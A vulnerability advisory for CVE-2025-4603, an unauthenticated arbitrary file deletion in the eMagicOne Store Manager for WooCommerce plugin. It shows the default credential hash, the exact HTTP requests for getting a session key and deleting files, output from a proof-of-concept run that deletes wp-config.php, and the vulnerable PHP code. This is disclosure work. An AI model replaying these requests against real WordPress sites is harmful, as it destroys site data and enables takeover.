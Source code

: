 +++
title = 'eMagicOne Store Manager for WooCommerce <= 1.2.5 - Unauthenticated Arbitrary File Delete'
date = 2025-05-23T05:20:12+00:00
hideToc = true


citations = [
  "https://www.cve.org/CVERecord?id=CVE-2025-4603",
  "https://nvd.nist.gov/vuln/detail/CVE-2025-4603",
  "https://www.wordfence.com/threat-intel/vulnerabilities/researchers/ryan-kozak"
]

tags = ["CVE", "WordPress", "eMagicOne"]
+++

### CVE-2025-4603

The [eMagicOne Store Manager for WooCommerce](https://wordpress.org/plugins/store-manager-connector/) plugin exposes a remote management protocol endpoint (`?connector=bridge`) that allows file deletion operations on the server. The authentication mechanism relies on a default credential pair (`login=1`, `password=1`) and a session key system. If the default credentials are not changed, an attacker can trivially authenticate, obtain a session key, and delete arbitrary files from the WordPress root or any accessible directory.


## Reproduction
A POC [CVE-2025-4603.py](https://github.com/d0n601/CVE-2025-4603/blob/master/CVE-2025-4603.py) is provided to demonstrate an attacker deleting `wp-config.php`.

```
python3 CVE-2025-4603.py https://lab1.hacker --file wp-config.php
[*] Requesting session key...
[*] Raw response: {"response_code":20,"revision":11,"module_version":"1.2.5","session_key":"38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc"}
[+] Got session key: 38933ee55aa61baf8bf4206494ec83c16c921980de6d5053f631172f0cad1cbc
[*] Attempting to delete file...
[*] Delete response: {"response_code":"20","message":"File was deleted from FTP Server successfully"}
```



## Vulnerable Flow
### Default Credentials and Hash Calculation

On plugin activation, the following constants are set in `smconnector.php`:

```php
define( 'EMO_SMC_DEFAULT_LOGIN', '1' );
define( 'EMO_SMC_DEFAULT_PASSWORD', '1' );
```

The default hash used for authentication is:
```php
'smconnector_hash'   => md5( EMO_SMC_DEFAULT_LOGIN . EMO_SMC_DEFAULT_PASSWORD ),
```
**Result:** The default hash is `md5('1' . '1')` = `c4ca4238a0b923820dcc509a6f75849b`.


### Session Key Acquisition
A session key is obtained by sending a POST request to the bridge endpoint with the hash and a task (e.g., `get_version`):

```http
POST /?connector=bridge
Content-Type: application/x-www-form-urlencoded

hash=c4ca4238a0b923820dcc509a6f75849b&task=get_version
```

**Relevant code:**  
`classes/class-emosmconnectorcommon.php` (lines ~441-525):

```php
private function check_auth() {
    if ( $this->shop_cart->isset_request_param( 'key' ) ) {
        // ... session key validation ...
    } elseif ( $this->shop_cart->isset_request_param( 'hash' ) ) {
        $hash = (string) $this->shop_cart->get_request_param( 'hash' );
        if ( ! $this->is_hash_valid( $hash ) ) {
            // ... error ...
        }
        $key = $this->generate_session_key( $hash );
        // ... return session key ...
    }
}
```

---

### Session Key Storage

The session key is stored in the `wp_smconnector_session_keys` table:

```php
private function generate_session_key( $hash ) {
    $key = hash( 'sha256', $hash . $timestamp );
    $sql = 'INSERT INTO `' . self::TABLE_SESSION_KEYS
        . "` (`session_key`, `date_added`, `last_activity`) VALUES ('" . $this->shop_cart->p_sql( $key ) . "', '"
        . $date . "', '" . $date . "')";
    $this->shop_cart->exec_sql( $sql );
    return $key;
}
```




### Arbitrary File Deletion
With a valid session key, an attacker can upload a file using the `delete_file` task:



```http
POST /?connector=bridge&task=delete_file&key=<session_key>&path=wp-content.php

```

**Relevant code:**
`classes/class-emosmconnectorcommon.php` (lines ~2167+):

```php
	/** Delete file */
	private function delete_file() {
		if ( ! $this->shop_cart->isset_request_param( 'path' ) ) {
			$this->generate_error( $this->br_errors['path_param_missing'] );
		}

		$filepath = (string) $this->shop_cart->get_request_param( 'path' );

		if ( empty( $filepath ) ) {
			$this->generate_error( $this->br_errors['path_param_empty'] );
		}

		$filepath = $this->shop_cart->get_shop_root_dir() . '/' . $filepath;

		if ( ! $this->shop_cart->file_exists( $filepath ) ) {
			$this->generate_error( $this->br_errors['delete_file_error'] );
		}

		$this->shop_cart->delete_file( $filepath );
	}
```


File deletion in `class-emosmcwoocommerceoverrider.php` (lines ~380+)::
```php
public function delete_file($filepath) {
    if (!file_exists($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::ERROR_CODE_COMMON,
            self::KEY_MESSAGE => 'File is missing on server',
        )));
    }

    if (unlink($filepath)) {
        die(json_encode(array(
            self::CODE_RESPONSE => self::SUCCESSFUL,
            self::KEY_MESSAGE => 'File was deleted from FTP Server successfully',
        )));
    }
}
```
**Result:** The file is deleted from the server.

